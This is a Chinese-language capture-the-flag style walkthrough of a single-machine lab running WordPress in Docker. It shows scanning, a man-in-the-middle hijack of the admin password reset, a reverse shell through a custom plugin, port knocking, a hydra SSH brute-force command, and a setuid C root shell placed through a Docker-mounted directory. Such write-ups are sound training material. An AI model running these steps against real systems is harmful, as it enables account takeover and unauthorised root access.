 # 靶场拓扑&情况
这个靶场只有一台机器，在外面访问到的WordPress是运行在docker中的，打点进去后，主要是容器逃逸和利用docker挂载目录来实现提权

# 渗透过程

nmap网络扫描
`nmap -v -A 192.168.163.0/24`

![](attachments/Pasted%20image%2020230304092401.png)

站点为WordPress 5.2.3，WPscan扫描
`wpscan --url http://192.168.163.135 -e u `

![](attachments/Pasted%20image%2020230304095111.png)

扫目录也没有效果，这个靶机一扫就烂，非常的卡，在进入login的时候发现很卡顿，而且url变成了tf2的域名
在hosts文件中加入tf2.com的记录

这里提供了忘记密码的选项
但是在尝试获得新密码的时候，出现了报错，猜测是邮件服务没有

![](attachments/Pasted%20image%2020230304103734.png)

wirshark监听，也证实了这个猜想，可以通过建立一个smtp服务，通过中间人攻击来拿到新的密码

修改etter.dns 中的值来将域名伪造为需要的 `smtp.tempusfugit2.com`和 `smtp.tempusfugit2.com.localdomain`

![](attachments/Pasted%20image%2020230304111035.png)

本地用python起一个简单的smtp服务
`sudo python3 -m smtpd -n -c DebuggingServer 192.168.163.135:25`
然后启动ettercup扫描host主机，将靶机添加到target1中，同时选择dns_spoof插件，注意要在MITM中打开ARP sniff remote connection

![](attachments/Pasted%20image%2020230304111546.png)

在这之后提交reset admin的密码,伪造的邮箱就会收到更新链接,进去后更新为新的直接登录后台

![](attachments/Pasted%20image%2020230304144148.png)

![](attachments/Pasted%20image%2020230304144413.png)

主题没有办法提交,用激活插件的方法反弹shell,需要自己写一个插件
[register_activation_hook() - 设置插件的激活（启用）钩子 - WordPress函数 - WordPress动力 (wpdongli.com)](https://www.wpdongli.com/reference/functions/register_activation_hook/)

压缩为zip包上传后激活就可以弹到shell

![](attachments/Pasted%20image%2020230304151542.png)

但是现在的shell并不是tty,在这个里面找到了别的东西`dG9ycmllOjlhNGx3MHI4MmN4Mgo=`

![](attachments/Pasted%20image%2020230304151838.png)

在wordpress中有一篇文章

![](attachments/Pasted%20image%2020230304151955.png)

是port koncking
[靶机-简单谈一下端口碰撞技术 (Port Knocking) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/210177505)

![](attachments/Pasted%20image%2020230304152256.png)

很明显了`1981 867 5309`
不知道为什么我的kali没有办法下载konckd,所有用nmap来替代了
`nmap 192.168.1.132 -Pn -p 1981,867,5309`

![](attachments/Pasted%20image%2020230304152901.png)

这个时候该连ssh了但是,发觉自己没有账号密码,回想起了刚刚的nb.txt,base64一下
`torrie:9a4lw0r82cx2`

![](attachments/Pasted%20image%2020230304153209.png)


登录的时候傻了,没反应登不上,感觉可能是konck没到

![](attachments/Pasted%20image%2020230304154012.png)

反应过来了,是改了hosts文件

![](attachments/Pasted%20image%2020230304170942.png)

有很多账号

![](attachments/Pasted%20image%2020230304171047.png)

sudo -l 尝试提权

![](attachments/Pasted%20image%2020230304171422.png)

`sudo -u syd timedatectl list-timezones`

![](attachments/Pasted%20image%2020230304172009.png)

拿到用户标识 `a81be4e9b20632860d20a64c054c4150`

![](attachments/Pasted%20image%2020230304172103.png)


![](attachments/Pasted%20image%2020230304172511.png)

接下来sudo -l 没有密码那个用户标识也没有用
爆破密码
`hydra -V -t 4 -l syd -P '/usr/share/wordlists/rockyou.txt.gz' ssh://192.168.1.132:22`

![](attachments/Pasted%20image%2020230304174451.png)

sudo -l

![](attachments/Pasted%20image%2020230304174641.png)

`sudo docker exec -it 1786dd63dedb /bin/bash`

![](attachments/Pasted%20image%2020230304174836.png)

本地编译一个用于提权的文件
`gcc shell.c -o shell`

```c
int main(void) {

    setgid(0); setuid(0);

    execl("/bin/sh","sh",0);

}
```

![](attachments/Pasted%20image%2020230304175352.png)

在docker容器中wget,没有wget apt install一下
啊不,有curl,然后chmod 4755 shell

![](attachments/Pasted%20image%2020230304175934.png)

当出去提权的时候发现,工作目录是wp-content,回去吧shell挪进去
运行的时候发现，glic版本对不上，最好还是传进去让docker里的系统自己编译，或者ssh传进去让外面的linux编译

![](attachments/Pasted%20image%2020230304180508.png)

测试了一下syd这个用户是没有gcc的，只能传到docker里编译

![](attachments/Pasted%20image%2020230304211331.png)

这样就拿下了，只是还是不明白那个用户标识有什么用

![](attachments/Pasted%20image%2020230304211404.png)

# 参考链接
[register_activation_hook() - 设置插件的激活（启用）钩子 - WordPress函数 - WordPress动力 (wpdongli.com)](https://www.wpdongli.com/reference/functions/register_activation_hook/)

[靶机-简单谈一下端口碰撞技术 (Port Knocking) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/210177505)
